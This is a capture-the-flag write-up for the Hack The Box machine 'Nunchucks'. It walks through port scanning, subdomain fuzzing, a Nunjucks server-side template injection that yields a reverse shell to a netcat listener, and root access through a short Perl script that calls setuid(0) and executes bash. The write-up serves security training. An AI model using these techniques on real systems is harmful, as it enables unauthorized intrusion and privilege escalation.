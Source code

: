 # Nunchucks

## Recon
```console
# nmap -Pn --open -sC -sV 10.10.11.122

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomain Enum
```console
# wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb
```

Updating `/etc/hosts` file:
```
# HTB
10.10.11.122 nunchucks.htb store.nunchucks.htb
```

## Initial Access 
### Server-side Template Injection (NUNJUCKS)
`POST /api/submit` endpoint is vulnerable to SSTI. 

Request:
```json
{
    "email":"test@test{{7*7}}"
}
```

Response:
```json
{
    "response":"You will receive updates on the following email address: test@test49."
}
```

Exploit reference: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Using `ssti_exploit.py`, we can get a reverse shell:

```console
# nc -lvnp 9001                    
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.122] 45644
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(david) gid=1000(david) groups=1000(david)
```

### user.txt
```console
$ cd /home/david
$ ls
user.txt
$ cat user.txt
853b**REDACTED**956e8
```

## Privilege Escalation
### david --> root

Finding an interesting backup script 
```console
david@nunchucks:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28 17:03 .
drwxr-xr-x 19 root root 4096 Oct 28 17:03 ..
-rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

`backup.pl` is using `POSIX::setuid(0)` to run the script as `root`

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

### exploit.pl
We can create the following exploit script and make it executable. 

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/bash"
```

### root.txt

```console
david@nunchucks:/tmp$ ./exploit.pl
./exploit.pl
root@nunchucks:/tmp# id  
id
uid=0(root) gid=1000(david) groups=1000(david)
root@nunchucks:/tmp# cat /root/root.txt
cat /root/root.txt
66fb6**REDACTED**3c492
```